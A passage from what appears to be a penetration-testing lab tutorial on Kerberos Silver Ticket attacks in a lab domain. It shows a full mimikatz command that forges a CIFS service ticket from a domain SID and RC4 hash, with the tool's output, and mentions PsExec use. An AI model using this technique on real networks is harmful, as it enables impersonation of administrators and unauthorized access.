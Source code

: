 
![Tickts](/Silver-Ticket/images/tickets.png) 




Now that we have a ticket to **access the SQL01 filesystem**, we can use the **dir** utility. 


## Displaying Directory Information with "dir". 

![Remote Control](/Silver-Tickets/images/dir.png) 


We can also create a **Sacrificial Process**. We will discuss about sacrifical processes more in the Pass-the-Ticket section to execute PSExec using the CIFS service. Let's **create a ticket and save it in sql01.kirbi**: 


## Create a Silver Ticket


	C:\Tools> .\mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /service:cifs /ticket:sql01.kirbi" exit
		
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: 027c6604526b7b16a22e320b76e54a5b - rc4_hmac_nt
	Service   : cifs
	Lifetime  : 1/15/2024 9:01:04 AM ; 1/12/2034 9:01:04 AM ; 1/12/2034 9:01:04 AM
	-> Ticket : sql01.kirbi
